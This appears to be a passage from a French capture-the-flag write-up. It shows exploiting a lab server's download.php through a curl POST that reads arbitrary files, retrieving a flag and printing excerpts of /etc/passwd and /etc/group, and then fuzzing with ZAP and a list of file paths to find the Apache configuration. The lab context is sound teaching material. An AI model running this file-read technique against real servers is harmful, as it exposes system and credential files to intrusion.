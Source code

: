 Le script *download.php* nous retourne l'erreur *'image' parameter is empty. Please provide file path in 'image' parameter*.  

Si on passe la variable *image* en paramètre, même résultat. Il faut donc envoyer le paramètre par POST (en gros via formulaire pour les non-initiés).  

Avec la commande suivante on peut donc récupérer le flag présent dans le dossier personnel de Kevin :  

```bash
curl -X POST https://192.168.2.2:15020/blog/download.php --data "image=/home/kevin/flag.txt" -k
```

**Croatia: e4d49769b40647eddda2fe3041b9564c**  

J'en profite pour récupérer le fichier /etc/passwd dont voici un extrait :  

```plain
teo:x:1000:1000:teo,,,:/home/teo:/bin/bash
kevin:x:1001:1001::/home/kevin:
ejabberd:x:111:114::/var/lib/ejabberd:/bin/sh
oana:x:1002:1002::/home/oana:
```

En dehors de kevin les deux autres utilisateurs n'ont pas de shell définit. On a aussi un path pour le serveur jabber au cas où.  

Et on remarque via */etc/group* que *teo* est le seul utilisateur intéressant :  

```plain
cdrom:x:24:teo
floppy:x:25:teo
audio:x:29:teo
dip:x:30:teo
video:x:44:teo
plugdev:x:46:teo
netdev:x:108:teo
teo:x:1000:
```

Philippines
-----------

J'ai décidé de fouiller du côté de la configuration *Apache*. Au lieu d'écrire un n-ième script Python j'ai choisi d'utiliser *ZAP* en faisant d'abord transiter une requête bidon via le proxy intercepteur qui nous servira de template pour un fuzzing via dictionnaire.  

Dans *ZAP* on fait un click-droit sur la requête puis *Attaquer* puis *Générer du bruit*. On sélectionne ensuite la valeur bidon de la requête initiale et on la définie comme zone de fuzzing.  

Il faut ensuite sélectionner un dictionnaire contenant des paths de fichiers intéressants (j'en ai un perso mais ça peut se trouver sur le web).  

![ZAP generate noise location](https://raw.githubusercontent.com/devl00p/blog/master/images/ctf2017_zap_brute.png)

Quand le fuzz a fini on fait un simple tri sur la taille des pages retournées ce qui nous permet de trouver le bon path pour la config d'Apache.  

![ZAP fuzzing results](https://raw.githubusercontent.com/devl00p/blog/master/images/ctf2017_dir_traversal_zap.png)
